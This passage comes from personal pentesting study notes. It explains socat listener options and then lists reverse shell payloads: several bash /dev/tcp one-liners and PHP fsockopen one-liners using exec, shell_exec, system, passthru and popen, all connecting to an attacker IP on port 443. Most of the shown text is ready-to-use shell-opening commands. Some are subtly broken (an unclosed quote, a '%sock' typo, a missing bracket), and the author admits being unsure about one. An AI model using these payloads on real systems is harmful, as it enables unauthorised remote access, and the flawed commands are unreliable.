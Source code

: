 		- `-d` enables version output
		- Using it again increases verbosity of the commands
		- `TCP-LISTEN:443` create a TCP listener on 443
		- Establishing a server socket for incoming connections
		- `STDOUT`
			- Directs any incoming data to the terminal
	- There are many more things you can do with `socat` - creating a more stable connection and the rest (described in another part of this 'book')

Shell Payloads
- A Shell Payload can be a command or a script that will expose the shell to an incoming connection in the case of a Bind Shell being considered, or a send connection in the case of a Reverse Shell. 
- Normal Bash Reverse Shell
	- `bash -i >& /dev/tcp/<attacker_ip>/443 0>&1`
		- Initiates an interactive bash shell that redirects input and output through a TCP connection to the attacker's IP on port 443
		- the `>&` combines both standard output and standard error
- Bash Read Line Reverse Shell
	- `exec 5<>/dev/tcp/<attacker_ip>/443; cat <&5 | while read line; do $line 2>&5 >&5; done`
		- This shell creates a NEW file descriptor (`5` in this instance) and connects to a TCP socket
		- It will then read and execute commands from the socket, sending the output back through the same socket
- Bash with File Descript 196 Reverse Shell
	- `0<&196;exec 196<>/dev/tcp/<attacker_ip>/443; sh <&196 >&196 2>&196`
		- Uses a file descriptor (`196` in this instance) to establish a TCP connection
		- It will allow the shell to read commands from the network and send output back through the same connection
- Bash with File Descriptor 5 Reverse Shell
- `bash -i 5<> /dev/tcp/<attacker_ip>/443 0<&5 1>&5 2>&5`
	- Similar to the previous file descript 5 example
	- This command will open a shell (`bash -i`), using file descriptor `5` for input and output, enabling an interactive session over the TCP connection

PHP
- PHP Reverse Shell Using the `exec` Function
	- `php -r '$sock=fsockopen("<attacker_ip>",443);exec("sh <&3 >&3 2>&3);'`
		- NOTE: Not sure if double-quotes are needed around the attacker-ip parameter or not.. Need to test this one
		- This shell creates a socket connection to the attackers IP on port 443 and uses the `exec` function to execute a shell, redirecting standard input and output (as well as with errors I think?)
- PHP Reverse Shell Using the `shell_exec` Function
	- `php -r '%sock=fsockopen("<attacker_ip",443);shell_exec("sh <&3 >&3 2>&3");'`
	- Similar to the previous shell, but using the `shell_exec` function
- PHP Reverse Shell Using the `system` Function
	- `php -r '$sock=fsockopen("<attacker_ip>",443);system("sh <&3 >&3 2>&3");'`
		- This revshell uses the `system` function which executes the command and outputs the result to the browser
- PHP Reverse Shell Using the `passthru` Function
	- `php -r '$sock=fsockopen("<attacker_ip>",443);passthru("sh <&3 >&3 2>&3");'`
		- `passthru` executes a command and sends raw output back to the browser. This is useful when working with binary data
- PHP Reverse Shell Using the `popen` Function
	- `php -r '$sock=fsockopen("<attacker_ip>",443);popen("sh <&3 >&3 2>&3", "r");'`
		- `popen` opens a process file pointer, allowing the shell to be executed
